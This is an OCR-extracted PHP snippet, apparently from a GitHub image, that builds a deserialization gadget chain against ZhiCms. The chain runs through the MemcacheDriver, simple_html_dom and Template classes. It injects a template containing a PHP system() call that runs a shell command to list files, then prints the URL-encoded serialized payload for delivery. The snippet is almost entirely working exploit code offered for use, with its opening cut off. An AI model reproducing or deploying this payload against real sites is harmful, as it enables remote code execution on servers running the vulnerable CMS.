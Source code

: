```bash
    protected $vars = array();
    protected $cache = null;

    public function __construct(){
        $this->cache = new Cache;
        $this->vars=array("tpl"=>"<?php system('nl /*');?>","isTpl"=>false);
    }
}

namespace ZhiCms\base\cache;
use ZhiCms\ext\simple_html_dom_node;
use ZhiCms\base\Cache;
class MemcacheDriver
{
    protected $mmc = NULL;
    protected $group = ''; 
    protected $ver = 0;
    public function __construct(){
        $this->mmc = new Cache();
        $this->group = new simple_html_dom_node;
    }
}


namespace ZhiCms\ext;
use ZhiCms\base\cache\MemcacheDriver;
use ZhiCms\base\Template;
use zhicms\base\Cache;
class simple_html_dom
{
    protected $parent;
    public $callback = null;
    public function __construct($obj){
        $this->parent = $obj;
    }
}
class simple_html_dom_node
{
    private $dom = null;
    public function __construct(){
        $dom = new simple_html_dom("");
        $dom->callback=array(new Template(), "display");
        $this->dom = $dom;

    }
}


$step = new MemcacheDriver;
$exp = new simple_html_dom($step);
echo urlencode(serialize($exp));
```
